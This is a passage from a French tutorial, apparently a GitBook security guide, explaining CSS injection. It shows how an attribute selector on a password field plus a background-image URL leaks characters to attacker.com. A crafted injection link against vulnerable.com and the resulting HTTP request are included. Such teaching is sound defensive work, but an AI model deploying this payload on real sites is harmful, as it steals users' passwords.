 {% code overflow="wrap" %}
```html
<style>
  input[name=password][value^=valeur] {
    background-image:url(https://banque-images.com/background.png);
  }
</style>
```
{% endcode %}

Le style va s'appliquer pour les éléments HTML `<input>`, dont l'attribut `name` est égal à "password" et dont la `value` commence par (le caractère `^` indique le début de chaîne) "valeur". Si un tel élément est trouvé, alors le navigateur appliquera le style `background-image` en récupérant l'image disponible à l'URL spécifiée.

L'attaquant va ainsi modifier le sélecteur comme ceci :&#x20;

{% code overflow="wrap" %}
```html
<style>
  input[name=password][value^=a] {
    background-image:url(https://attacker.com/?leak=a);
  }
</style>
```
{% endcode %}

Et amener sa victime à suivre le lien malicieux exploitant l'injection :&#x20;

{% code overflow="wrap" %}
```
https://vulnerable.com/css-injection-element-password.php?color=black;}input[name=password][value^=a]{background-image:url(https://attacker.com/?leak=a);}
```
{% endcode %}

Lorsque le navigateur de la victime chargera la page, la condition sera remplie et une requête sera effectuée vers le serveur de l'attaquant :&#x20;

{% code overflow="wrap" %}
```http
GET /?leak=a HTTP/1.1
Host: attacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Referer: https://vulnerable.com
Connection: close
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>
